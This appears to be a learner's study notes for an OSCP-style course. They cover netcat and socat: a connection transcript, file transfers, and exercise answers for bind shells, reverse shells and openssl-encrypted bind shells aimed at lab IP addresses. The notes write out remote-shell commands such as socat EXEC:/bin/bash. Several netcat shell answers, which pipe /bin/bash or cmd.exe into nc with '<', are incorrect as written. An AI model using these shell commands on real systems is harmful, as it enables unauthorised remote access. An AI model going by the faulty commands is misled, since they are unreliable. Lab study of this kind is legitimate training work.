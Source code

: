 
# Tools

## netcat

`nc -nv 192.168.133.128 80`

```
~/codeplay/oscp  master ⇡1 !1  nc -nv 192.168.133.128 80                                                                                                                      ✔  7s   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.133.128:80.
ls
HTTP/1.1 400 Bad Request
Date: Wed, 09 Mar 2022 17:05:08 GMT
Server: Apache/2.4.52 (Debian)
Content-Length: 308
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at hlkali.vuln.land Port 80</address>
</body></html>
```

`nc -nlvp 4444`


wget.exe can be pushed through netcat
/usr/share/windows-resources/binaries/wget.exe


For example, consider the cmd.exe executable. By redirecting stdin, stdout, and stderr to the
network, we can bind cmd.exe to a local port. Anyone connecting to this port will be presented with
a command prompt on the target computer.

Bind Shells have the listener running on the target and the attacker connects to the listener in order to gain remote access to the target system. In the reverse shell, the attacker has the listener running on his/her machine and the target connects to the attacker with a shell.

### 4.1.4.3 Exercises
(Reporting is not required for these exercises)
1. Implement a simple chat between your Kali machine and Windows system.
   no windows machine but it would be through nc
![](../chapter3/nc_binary.png)

2. Use Netcat to create a:
a. Reverse shell from Kali to Windows.
`nc -nv 10.10.10.10 8080 < /bin/bash`

b. Reverse shell from Windows to Kali.
`nc -nv 10.10.10.10 8080 < cmd.exe`


c. Bind shell on Kali. Use your Windows system to connect to it.

`nc -nlvp 4444 < /bin/bash`


d. Bind shell on Windows. Use your Kali machine to connect to it.

`nc -nlvp 4444 < cmd.exe`


3. Transfer a file from your Kali machine to Windows and vice versa.

![](../chapter3/nc_transfer.png)

4. Conduct the exercises again with the firewall enabled on your Windows system. Adapt the
exercises as necessary to work around the firewall protection and understand what portions
of the exercise can no longer be completed successfully

okay if firewall blocks both incoming and outcoming that will be a problem.

![](../chapter3/nc_shell.png)

# socat

similar to netcat but with additional features.

using socat to transfer files
`sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

`socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`


using socat to transfer shells

```
socat TCP4:localhost:443 EXEC:/bin/bash

```

```
socat -d -d TCP4-LISTEN:443 STDOUT
```

Encrypting traffic through bind shell

To continue with the example of Alice and Bob, we will use the openssl application to create a selfsigned certificate using the following options:
• req: initiate a new certificate signing request
• -newkey: generate a new private key
• rsa:2048: use RSA encryption with a 2,048-bit key length.
• -nodes: store the private key without passphrase protection
• -keyout: save the key to a file
• -x509: output a self-signed certificate instead of a certificate request
• -days: set validity period in days
• -out: save the certificate to a file
Once we generate the key, we will cat the certificate and its private key into a file, which we will
eventually use to encrypt our bind shell.

```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 36
2 -out bind_shell.crt
```

commands 

```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin
/bash
```

```
socat - OPENSSL:10.11.0.4:443,verify=0
```

### 4.2.4.1 Exerc1ises
1. Use socat to transfer powercat.ps1 from your Kali machine to your Windows system. Keep
the file on your system for use in the next section.

![](socat_file_transfer.png)

2. Use socat to create an encrypted reverse shell from your Windows system to your Kali
machine.

![](reverse_shell.png)

3. Create an encrypted bind shell on your Windows system. Try to connect to it from Kali
without encryption. Does it still work?

cant do it currently.

4. Make an unencrypted socat bind shell on your Windows system. Connect to the shell using
Netcat. Does it work?
Note: If cmd.exe is not executing, research what other parameters you may need to pass to the
EXEC option based on the error you receive.

![](unencrypted_with_socat_and_netcat.png)


